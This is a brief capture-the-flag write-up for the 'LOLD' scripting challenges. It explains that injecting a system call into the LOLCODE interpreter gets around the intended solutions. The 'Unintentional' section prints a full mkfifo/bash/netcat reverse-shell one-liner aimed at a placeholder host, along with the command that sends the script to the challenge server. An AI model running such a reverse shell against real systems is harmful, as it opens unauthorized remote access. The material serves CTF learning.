 # Scripting: The LOL\* Challenges

People figured out how to cheese this one pretty quickly, and I only figured this out 30 mins before the end of the event. As much as I would like to go back and do them the right way, I don't really have time. So, a quick rundown:

## Unintentional
```
IN MAI os GIMME system
system WIT "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc IP PORT >/tmp/f" OK
```
Do this on any of the LOL challenges and you can just get a reverse shell (I used ngrok). You'll need to send the file off to the remote interpreter by doing `cat myscript.lol | nc challenge.nahamcon.com RPORT`, but it works on all 3.

## Intentional
> My best guesses as to what intentional was because most people did it the above way

- **LOLD**: Don't really know what else to do other than a system("cat /flag.txt")
- **LOLD2**: Kind of in the same way you'd approach a blind SQL injection. Figure out each character based on the error
- **LOLD3**: No clue how you'd locate the flag without doing rev shell or using webhooks.
